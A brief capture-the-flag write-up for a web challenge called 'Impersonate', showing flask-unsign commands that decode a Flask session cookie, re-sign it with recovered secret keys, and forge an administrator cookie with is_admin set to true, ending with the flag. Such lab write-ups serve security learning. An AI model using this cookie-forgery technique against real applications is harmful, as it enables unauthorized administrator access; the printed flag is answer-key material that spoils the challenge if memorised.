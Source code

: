 # Impersonate

One may not be the one they claim to be.

http://chal.competitivecyber.club:9999/

## Solution

logged in test/test, grabbed session
eyJpc19hZG1pbiI6ZmFsc2UsInVpZCI6ImY1NGUzMmI2LWQzOGMtNTJmZS1hNWY2LTIyZDYxMWFjN2EzMiIsInVzZXJuYW1lIjoidGVzdCJ9.Zu7tNg.9Ehs0weWCpo_7fsyXWKePYTiaWs

```sh
flask-unsign --decode --cookie 'eyJpc19hZG1pbiI6ZmFsc2UsInVpZCI6ImY1NGUzMmI2LWQzOGMtNTJmZS1hNWY2LTIyZDYxMWFjN2EzMiIsInVzZXJuYW1lIjoidGVzdCJ9.Zu7tNg.9Ehs0weWCpo_7fsyXWKePYTiaWs'
# {'is_admin': False, 'uid': 'f54e32b6-d38c-52fe-a5f6-22d611ac7a32', 'username': 'test'}

flask-unsign --unsign --cookie < cookie.txt
# failed

python3 solve.py

flask-unsign --sign --cookie "{'is_admin': False, 'uid': 'f54e32b6-d38c-52fe-a5f6-22d611ac7a32', 'username': 'test'}" --secret 'f40c0444c241120094e82d1280f81ded36995bdf4a8837d2a60a0b09779e6399'
# eyJpc19hZG1pbiI6ZmFsc2UsInVpZCI6ImY1NGUzMmI2LWQzOGMtNTJmZS1hNWY2LTIyZDYxMWFjN2EzMiIsInVzZXJuYW1lIjoidGVzdCJ9.Zu7y-A.za31TMpC8y_yjNX4EU-_io5Wul0

flask-unsign --sign --cookie "{'is_admin': True, 'uid': '02ec19dc-bb01-5942-a640-7099cda78081', 'username': 'administrator'}" --secret '157f7f7cddc7108879a8c670a7be77f6b624483292c566c6270b09bda9d64111'
# eyJpc19hZG1pbiI6dHJ1ZSwidWlkIjoiMDJlYzE5ZGMtYmIwMS01OTQyLWE2NDAtNzA5OWNkYTc4MDgxIiwidXNlcm5hbWUiOiJhZG1pbmlzdHJhdG9yIn0.Zu7y0A.mVi49oPJTppd_q9M8zLu_KNX14M
```


```sh
python3 solve.py
# PCTF{Imp3rs0n4t10n_Iz_Sup3r_Ezz}
```
